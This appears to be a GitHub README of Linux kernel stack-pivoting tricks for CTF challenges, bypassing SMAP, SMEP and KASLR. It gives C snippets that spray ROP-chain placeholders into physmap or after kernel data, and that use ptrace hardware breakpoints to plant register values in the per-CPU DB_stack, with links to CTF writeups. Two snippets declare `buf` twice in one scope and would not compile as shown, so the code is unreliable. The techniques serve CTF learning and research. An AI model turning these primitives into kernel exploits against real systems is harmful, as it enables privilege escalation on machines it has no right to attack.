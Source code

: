 # linux-kernel-stack-pivoting-trick
some tricks for linux kernel stack pivoting in CTF \[with smap|smep|kaslr\]

## direct mapping area [physmap]
- condition: leak physmap address
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [MINI-LCTF2022 kgadget](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir) with smap&&smep, but no kaslr

## DB_stack [in per-cpu cpu_entry_area]
- condition: leak per-cpu cpu_entry_area after linux 6.2
- exploit: trigger hardware breakpoint to place rop chain in DB_stack
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#define DB_OFFSET(idx) ((void*)(&(((struct user*)0)->u_debugreg[idx])))
pid_t pid;
int status;
char buf[4];

void set_hbp(void *addr)
{
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(0), addr) == -1)
    {
        printf("Failed to set dr_0\n");
        kill(pid, 9);
        exit(-1);
    }
    unsigned long dr_7 = (1<<0)|(1<<8)|(1<<16)|(1<<17)|(1<<18)|(1<<19);
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(7), dr_7) == -1)
    {
        printf("Failed to set dr_7\n");
        kill(pid, 9);
        exit(-1);
    }
}

int main(int argc, char **argv, char **env)
{
    pid = fork();
    if (!pid)
    {
        cpu_set_t cpu_set;
        CPU_ZERO(&cpu_set);
        CPU_SET(0, &cpu_set);
        sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP);
        // place rop chain
        __asm__(
        "mov r15,   0x11111111;"
        "mov r14,   0x22222222;"
        "mov r13,   0x33333333;"
        "mov r12,   0x44444444;"
        "mov rbp,   0x55555555;"
        "mov rbx,   0x66666666;"
        "mov r11,   0x77777777;"
        "mov r10,   0x88888888;"
        "mov r9,    0x99999999;"
        "mov r8,    0xaaaaaaaa;"
        "mov rax,   0xbbbbbbbb;"
        "mov rcx,   0xcccccccc;"
        "mov rdx,   0xdddddddd;"
        "mov rsi,   0xeeeeeeee;"
        "mov rdi,   0xffffffff;"
        );
        buf[0] = 0;
        exit(1);

    }
    waitpid(pid, &status, 0);
    set_hbp(buf);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    return 0;
}
```
- example: [SCTF2023 sycrop|moonpray](https://github.com/pray77/CVE-2023-3640)
- bypass cea randomization in qemu [maybe just in CTF]:
  - [make cpu-entry-area great again](https://kqx.io/post/sp0/) raised by [@kqx](https://kqx.io/about/)
  - I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)

## a area after kernel data [maybe just in CTF]
- condition: leak kbase
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [WMCTF2025 wm_easyker](https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5)
